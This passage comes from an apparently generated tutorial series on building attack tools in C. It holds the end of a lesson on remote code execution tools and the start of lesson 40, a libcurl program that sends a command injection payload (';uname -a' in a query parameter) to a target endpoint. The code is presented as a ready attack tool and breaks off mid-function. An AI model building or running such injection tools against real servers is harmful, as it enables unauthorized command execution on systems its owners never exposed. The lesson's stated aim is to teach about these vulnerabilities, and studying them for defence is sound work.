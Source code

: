 #### Conclusion:

Building an RCE tool in C helps demonstrate the potential risks associated with RCE vulnerabilities, which can lead to severe consequences such as unauthorized access, data leakage, or system compromise. By understanding how RCE attacks work, developers and security professionals can implement proper security measures to prevent and mitigate such vulnerabilities.

This concludes our thirty-ninth lesson on building a Remote Code Execution (RCE) tool in C. If you have any questions or would like to explore specific topics further, feel free to ask!

### Lesson 40: Building a Command Injection Tool in C

In this lesson, we'll develop a simple command-line tool in C programming to exploit Command Injection vulnerabilities. Command Injection vulnerabilities occur when an application allows user-controlled input to be executed as a command on the underlying operating system, leading to unauthorized command execution and potential system compromise. Our tool will craft and send malicious payloads to the target server to demonstrate the impact of Command Injection vulnerabilities.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <curl/curl.h>

#define TARGET_URL "http://example.com/vulnerable_endpoint"

// Function to perform a Command Injection attack
void perform_command_injection() {
    CURL *curl;
    CURLcode res;

    // Initialize libcurl
    curl = curl_easy_init();
    if (!curl) {
        fprintf(stderr, "Error initializing libcurl\n");
        exit(EXIT_FAILURE);
    }

    // Set the target URL for the Command Injection attack
    curl_easy_setopt(curl, CURLOPT_URL, TARGET_URL);

    // Craft malicious payload for Command Injection
    char payload[1000];
    snprintf(payload, sizeof(payload), "%s?input=;uname -a", TARGET_URL);
    curl_easy_setopt(curl, CURLOPT_URL, payload);

    // Perform the Command Injection attack
    res = curl_easy_perform(curl);
    if (res != CURLE_OK) {
        fprintf(stderr, "Error performing Command Injection attack: %s\n", curl_easy_strerror(res));
        curl_easy_cleanup(curl);
        exit(EXIT_FAILURE);
    }

    // Cleanup libcurl
    curl_easy_cleanup(curl);
}

int main() {
    printf("Starting Command Injection attack...\n");

    // Perform the Command Injection attack
    perform_command_injection();

```